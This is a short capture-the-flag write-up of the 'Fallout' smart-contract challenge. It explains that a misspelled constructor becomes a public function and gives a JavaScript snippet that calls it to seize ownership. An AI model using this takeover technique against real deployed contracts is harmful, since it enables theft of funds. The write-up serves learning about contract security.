 # Day 2 - Fallout

Constructor is spelled wrongly so it becomes a regular function. In any case, you can't use the contract name as a constructor in solidity 0.5.0 and above.

```js
await contract.Fal1out({ value: 1234 });
const owner = await contract.owner();
await contract.sendAllocation(owner);
```
